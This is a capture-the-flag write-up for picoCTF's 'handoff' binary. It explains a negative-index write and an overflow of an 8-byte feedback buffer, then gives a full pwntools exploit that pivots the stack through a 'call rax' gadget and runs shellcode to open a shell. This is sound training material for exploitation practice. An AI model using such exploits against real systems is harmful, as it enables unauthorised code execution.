 # Description

Download the binary [here](https://challenge-files.picoctf.net/c_shape_facility/7d20bd7d809ec876eedf2dbc6a15974c4a34a735fc5fef28d056ecd58a756625/handoff)Download the source [here](https://challenge-files.picoctf.net/c_shape_facility/7d20bd7d809ec876eedf2dbc6a15974c4a34a735fc5fef28d056ecd58a756625/handoff.c)

Additional details will be available after launching your challenge instance.

# Solution

While reviewing the code of this challenge a few things popped as red flags, first we are able to write at arbitrary offsets (we can use negative numbers on option 2) because there's no boundary check for numbers lower than 0.

```c
else if (choice == 2) {
	choice = -1;
	puts("Which recipient would you like to send a message to?");
	if (scanf("%d", &choice) != 1) exit(0);
	getchar();
	
	if (choice >= total_entries) {
		puts("Invalid entry number");
		continue;
	}

	puts("What message would you like to send them?");
	fgets(entries[choice].msg, MSG_LEN, stdin);
```

We also have an overflow in option 3.

```c
else if (choice == 3) {
	choice = -1;
	puts("Thank you for using this service! If you could take a second to write a quick review, we would really appreciate it: ");
	fgets(feedback, NAME_LEN, stdin);
	feedback[7] = '\0';
	break;
}
```

The feedback variable is at most 8 bytes long and we are reading NAME_LEN bytes of size 32 into it. Something worth noting is that we don't have canary, NX and pie protections enabled for this binary.

![[Pasted image 20250308125226.png]]

This will make our life easier since we can just pivot execution to the stack and go from there ...

It seems we are able to write from (rbp-0x2e0)-choice

![[Pasted image 20250308154628.png]]

At time of execution we have 0xfd4 bytes between rsp and rbp, if we take the 2e0 offset into account we are separated by 0xcf4, this should be enough space to prepare our custom shellcode.

If we add the first payload via the addition of an entry and message, we should have a payload at $rsp+0x10 as shown below ...

![[Pasted image 20250308161605.png]]


... so if we are able to overwrite the return address with a push rsp, ret instruction we should be able to redirect execution to our shellcode  in the stack.

Also if we use the exit feature, we are able to overwrite pass rbp ...

![[Pasted image 20250308162307.png]]

While looking for ways to gain execution control it became clear that we could leverage the different registers that had data from our controlled buffer like RAX, RCX and RSI ...

![[Pasted image 20250308162703.png]]

At this point we just had to find a call or jmp instruction to one of our controlled registers that could be used to execute our first stage shellcode, fortunately there is a call rax instruction at offset 0x401014.

```
0x0000000000401014 : call rax
```

From there we created a custom shellcode to perform our stack pivot:

```
sub rsp, 0x2e0
push rsp
ret
```

Once that is executed we have our second stage shellcode ready at offset RSP-0x2e0.

![[Pasted image 20250308172954.png]]

Full py script ...

```python
#!/usr/bin/python
# -*- coding: latin-1 -*-

from pwn import *
import sys

script='''
b *vuln + 202
b *vuln + 387
b *vuln + 447
'''

def send_payload(payload):
    r.sendline(payload)
    return r.recvall()

def hunt():
  #pause()
  context.update(arch='amd64', os='linux')
  shellcode = shellcraft.sh()
  prestage = asm('nop')
  prestage += asm('nop')
  prestage += asm('sub rsp, 0x2e0')
  prestage += asm('nop')
  prestage += asm('nop')
  prestage += asm('nop')
  prestage += asm('push rsp')
  prestage += asm('ret')
  print(hexdump(prestage))
  print(shellcode)
  print(hexdump(asm(shellcode)))
  r.recvuntil(b'3. Exit the app\n')
  r.sendline(b'1')
  r.recvuntil(b"What's the new recipient's name: \n")
  r.sendline(b'\x90')
  r.recvuntil(b'3. Exit the app\n')
  r.sendline(b'2')
  r.recvuntil(b'Which recipient would you like to send a message to?\n')
  r.sendline(b'0')
  r.recvuntil(b'What message would you like to send them?\n')
  r.sendline(asm(shellcode))
  r.recvuntil(b'3. Exit the app\n')
  r.sendline(b'3')
  r.recvuntil(b'we would really appreciate it: \n')
  stage1 = prestage + b'\x90'*6 + p64(0x401014) + b'\x90'*2
  r.sendline(stage1)
  r.interactive()

if __name__ == '__main__':
  context.terminal = ['tmux','splitw','-v']

  binary="./handoff"
  bin_args = ["AAAAAAAA", "BBBBBBBB"]
  host, port = "localhost 5000".split()

  if len(sys.argv) > 1:
    r = remote(host,int(port))
  else:
    log.info("For remote: %s remote" % sys.argv[0])
    r = gdb.debug([binary,b'AAAAAAAA'],gdbscript=script, env={"LD_PRELOAD":""})
  hunt()
  ```
  